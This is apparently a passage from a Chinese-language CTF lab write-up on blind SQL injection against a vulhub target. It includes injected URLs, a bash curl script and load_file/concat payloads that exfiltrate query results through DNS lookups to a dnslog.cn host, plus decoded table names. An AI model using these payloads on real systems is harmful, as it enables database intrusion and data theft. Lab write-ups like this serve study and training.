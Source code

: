 **构造语句**
```sql
-- 查询有多少 column 包含 flag
select count(*) from information_schema.columns where column_name like '%flag%' ;

-- concat
select concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt')  ;

-- load_file
select load_file( concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt') )  ;

```

**dnslog oob**

```bash
http://vulhub.example.com:8022/dns/?id=1 AND load_file( concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt') ) 

# 8.w24iu8.dnslog.cn
```

WEB 渗透公共小作坊就开始了。 无数个语句平凑， 无数次失落与心酸。
不知道多久过去了， 反正一个天真的孩子在歧路上越走越远
不行了， 太变态了， 第一节就搞这么复杂。

### 0x02.3 是不是我想的太复杂了

按照道理说， 第一节不应该这么复杂啊。 要不就在本地库上找找？

### 0x02.3.1 原始文明到农耕文明

由于靶场没有鉴权， 因此开始使用 `shell script` 进行半手工操作。

```bash
#!/bin/bash

DNSLOG=".maoshe-admin.xxx.dnslog.cn"
SQL=" SELECT SQL STATEMENT "

curl ${SESSION} -sL  "http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//',( ${SQL}  ),'${DNSLOG}/1.txt')) " > /dev/null
```

**1. 查询表明**

```sql
-- 查询 库名与表明
select hex(group_concat(table_name)) from information_schema.tables  ;
-- 61646d696e2c6e657773.jnwdsn.dnslog.cn
-- => admin,news
```

**2. 查询字段**
